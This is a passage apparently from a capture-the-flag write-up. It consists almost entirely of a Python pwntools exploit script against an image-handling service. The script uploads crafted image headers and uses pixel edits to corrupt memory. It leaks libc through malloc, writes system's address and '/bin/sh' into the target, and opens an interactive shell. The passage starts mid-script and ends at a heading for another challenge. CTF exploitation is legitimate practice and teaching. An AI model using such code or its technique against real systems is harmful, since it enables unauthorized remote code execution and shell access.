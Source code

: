 ```python
	sh.sendline("(%d, %d) %c" % (x,y,v))
	sh.recvuntil(">>> ")

def parse_byte(l):
	if len(l) == 1:
		l = ord(l)
		if l >= ord('1') and l <= ord('9') or \
			l >= ord('a') and l <= ord('f'):
			return int(chr(l), 16)
		else:
			return l
	else:
		return int(l, 16) & 0xff

def get_address(s):
	print "----------" + s
	arr = s.split(' ')
	ret = 0
	for c in arr[::-1]:
		if len(c) != 0:
			print c
			parse_byte(c)
			ret <<= 8
			ret |= parse_byte(c)
	return ret


def print_grid(line):
	sh.sendline("2")
	sh.recvuntil(("%2d" % line) + " | ")
	ret = get_address(sh.recvuntil(" 7f"))
	return ret


img_header = p32(0x49435341) + p32(0x20) + p32(0x20)
sh.recvuntil(">>> ")
upload(0, img_header + p32(0x80000000))
upload(1, img_header + p32(0))
shop_then_touch(0)
ld_leak_off = 0xabe8 + OFF
change_pixel(0x418, 0, ld_leak_off & 0xff)
change_pixel(0x419, 0, ld_leak_off >> 8)
back()
touch(1)
libc_addr = print_grid(0) - e.symbols["malloc"]
print hex(libc_addr)

back()
touch(0)
sys_addr = p64(libc_addr + e.symbols["system"])[:6]
binsh = "/bin/sh"
for i in xrange(len(sys_addr)):
	change_pixel(0xbf44+OFF+i, 0, ord(sys_addr[i]))
for i in xrange(7):
	change_pixel(0xb94c+OFF+i, 0, binsh[i])

sh.interactive()
```
## 738 Reverse / matryoshka

